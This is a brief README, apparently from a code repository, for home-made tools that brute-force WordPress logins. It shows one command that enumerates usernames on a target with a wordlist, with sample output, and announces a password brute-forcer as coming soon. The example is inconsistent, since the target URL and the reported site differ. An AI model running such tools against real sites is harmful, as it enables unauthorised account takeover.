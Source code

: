 # WordPress Brute Force Suite

A repository of simple tools I've made to brute force `/wp-login.php` \
Tested on WordPress/4.3.33.

### `wpbruteuser.py`
```
$ ./wpbruteuser.py -u http://127.0.0.1 -w /usr/share/wordlists/common.txt
Site....: http://10.0.0.48
Wordlist: /usr/share/wordlists/common.txt
Timeout.: 5
Username -> fred
```

### `wpbrutepass.py`
Soon™
